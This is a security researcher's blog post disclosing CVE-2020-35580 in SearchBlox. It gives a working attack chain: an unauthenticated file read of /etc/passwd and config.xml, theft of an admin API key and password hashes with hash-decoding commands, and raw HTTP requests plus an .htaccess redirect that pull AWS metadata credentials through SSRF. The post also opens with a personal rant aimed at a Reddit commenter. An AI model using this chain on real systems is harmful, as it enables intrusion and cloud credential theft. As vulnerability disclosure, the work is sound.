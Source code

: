 ```yaml
---
layout: post
title: CVE-2020-35580
categories: [general]
tags: [cve]
comments: true
---
```


I will start by saying I am not that smart. Never have been, never will be. I know when things are bad and sometimes I can translate that into being top 25 on the all time points list on Bugcrowd. Dropping things like that has never really been my style, but sometimes when I am feeling annoyed at things I see in the world I like the take it out on something else. With that said, I would love to take this opportunity to dedicate this post to a special redditor out there. You know who you are. Well, you dont. Let me give you a hint. You love stupid comments like *That's a lot of text for effectively a Burp Active Scan finding*. Cough,cough @WTF-BOOM. Congratulations! You should feel lucky that you are finally being noticed for something! Even if it is for stupid takes on things you might not understand or know much of anything about. Here's to you!

This dedication isn't actually for some silly man making comments that makes me feel the need to dedicate this to him. The real reason is folks piling on someone isn't cool. Some people are not in a good place to just ignore criticisms and it eats at them and really causes demoralizing issues for them. I am not going to expound on this, but a family member is having a terrible time because of people like you and when I was looking some details from a previous blog post I noticed your helpful comment so I re-wrote my post for you. I couldn't care less that you have crap to post about me, but just let it be known that I am better at it than you are. 

So before I write anything about the bug I found that I needed to answer several questions for somebody that I really shouldn't have to, but apparently it has become necessary.

The Aforementioned Several Questions (Just stop it Ohio State):
### Question 1
When I decide to write a blog post, do I find a target and run Burp Active Scan and huff paint and write about what is found?
- First off great question, I am glad that you asked! As nice as paint can smell, I do not. Active scan doesn't often find things that are in scope on public bounties. I mean it's great and it sure can, but not in this scenario. And if it does, there is a 99.9999% chance that it was found prior and I don't care. Furthermore, I sure can do that. Clickjacking can be scarier than you even know. Maybe even scary enough that I will dedicate a 10 part series on it. Nice feedback.

### Question 2
Did this issue I found without Active Scan deserve a blog post? 
- Well I am glad you asked! Applying for a CVE asks for a reference for publishing details, so yes? By the way, it has a CVE. <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35580>

### Question 3
For everyone in disagreement with the answer to Question #2, did this issue I found without Active Scan deserve a blog post? 
- Well, I don't actually care, but hell yes it does. It is a previously unknown issue that needs to be written down. An issue that quite shockingly exists. I am no scientist, but my final vulnerability rating metrics  (the two that matter) were:
```md
Technical complexity Rating : 0
WTF Lulz Rating : 100
```


I will end my rant by saying that if I can reach just one wannabe crap poster than all of this will be worth it. Actually, writing this entertains me so either way I win.

Ok Leroy, lets do this.

I found an external web application and I immediately opened Burp Active Scanner and huffed some paint. Yes, green is the best flavor. Ha. Actually I clicked around as one who does the hacking would do. I did this until I noticed a URL that contained a **url** parameter. Adding a URL to that **url** amounted to an Open Redirect, which was still not found by Active Scanner, sad ;). Despite the url parameter being expressly reserved for URLs, I decided to add an obviously stupid choice of a file name instead of a url. I did it and while I apologize for breaking logical rules, I would do it again. Also, I don't apologize. We now have a url like the following: 
<https://unhappy.site.com/searchblox/servlet/FileServlet?col=9&url=/etc/passwd> and
![etc-passwd.png]({{site.baseurl}}/assets/media/posts/searchblox/etc-passwd.png)

Fantastic, a nice vulnerable system affected by a Local File Inclusion vulnerability which allowed arbitrary files to be read from the underlying operation without authentication. We are so done, submit bug and cash out, write silly blog post about another Active Scan win!

No Leroy, not that. Let's make it worse. With the perk of being able to read arbitrary files, a specific Searchblox file is our best friend.
<https://unhappy.site.com/searchblox/servlet/FileServlet?url=/opt/tomcat/webapps/searchblox/WEB-INF/config.xml&col=1>
 - *Please note that if the **col** parameter (e.g. short for collection) is not provided or if it is too large vs the number of current collections configured on the site, the file contents will not be returned.*In this config.xml file we allow Burp Active Scanner a chance to contribute to this effort. Here there were beautiful things found:
- A (Not The) Super Admin API Key
- Usernames along with Base64 encoded SHA1 password hashes

Luckily we have Burp Active Scan to tell us everything we would ever need to know, let's start with the hashes,actually we had @jreppiks (From the Twitter) who is slightly better than Active Scan with hashes (his words not mine).
1. To Obtain the actual SHA1 Hash, do the following magic:
```bash
# Base64 encoded SHA1 Hash to SHA1 Hash
echo -n "Base64encoded-SHA1-Hash" | base64 -d | xxd -c 20 | cut -d\: -f2 | awk -F' ' '{print $1}' | sed 's# ##g
```
2. Attempt to crack the hash offline with Hashcat and if it is successful it can be easily checked by logging into the application. But if you have a sick compulsion to re-enhash (re + encode + hash == re-enhash) this to see if you get the same value that you fed Hashcat with you can even do the following:
```bash
# re-enhashed Value: D7xtPXym2wO9JBiH0P6vPzIcKqc=
echo -n "CleartextPassword" | openssl sha1 -binary | base64
```

With all the hash chicanery taken care of, lets circle back to that **Super Admin API Key**. If you can imagine, this API key being an API key, allowed API calls to be made that would normally only be afforded to a **Super Admin** user. Shocking. 

So far, I have shown some "Web AppE" (e.g. Technical Term) things in the course of this post. Before we start the final attack, what actually is SearchBlox? It may just be important to get the most out of this. Searchblox is a customizable, enterprise search solution based on Apache Lucene/Elasticsearch for websites, intranets, databases and custom searches. Essentially its purpose is to replace Google's Search Appliance after it went End-of-Life to index enterprise content. With this in mind the best way to attack it may just be to attack it by using its own functionality against itself. If for no other reason, it is absolutely more fun that way. Finally, I must disclose that both Burp Active Scan and I equally contributed to this final attack, let's attack.

First, we create a new collection on the server to store the data that Searchblox indexes.

```md
POST /searchblox/rest/collection/add HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 99
Content-Type: application/json

{ "apikey" : "SHOCKER-AN-API-KEY-GOES-HERE", "colname":"bct3","coltype":"http","language":"en"}

```

Second, we create a custom document instructing Searchblox what to index.

```md
POST /searchblox/api/rest/docadd HTTP/1.1
Host: unhappy.site.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 187

<?xml version="1.0" encoding="utf-8"?>
<searchblox apikey="SHOCKER-AN-API-KEY-GOES-HERE">
	<document colname="bct3" location="http://evil.bad.site.found.by.burp.active.scanner.com/a"></document>
</searchblox>
```

Finally, we configure our external Apache Web Server with the following .htaccess file:
```bash
# 301 FUN with an .htaccess file
http://169.254.169.254/latest
RedirectMatch "^/.*" "http://169.254.169.254/latest/meta-data/"
```
![htaccess.png]({{site.baseurl}}/assets/media/posts/searchblox/htaccess.png)

So why does all of that matter in the slightest? Well, SearchBlox is used for custom searches and can be configured so specific results are shown based on configured criteria. When it is told to index something it wants to be helpful and will. If we tell it to index content on our external server it go forth and request it. Where it gets fun is when we set up Apache to take any request it gets and redirect it back to the Searchblox AWS metadata endpoint. By doing this Searchblox indexes the specified AWS metadata and then we can search for and view it from the appliances web UI within its search results!  And what better information to be able to search for than temporary AWS credentials!
![indexed.png]({{site.baseurl}}/assets/media/posts/searchblox/indexed.png)

Nifty! Thank all that is right and holy for Burp Active Scan.

Like usual, there is undoubtedly there is a better payload/solution/attack to exploit this. If you know a better way to do it, please school me / make fun of me / troll me to tears on Twitter @hateshaped!

P.S. If it seems I am denigrating Burp Active Scan, please be assured that I love it. It is only used as the means to prove my previous statements.
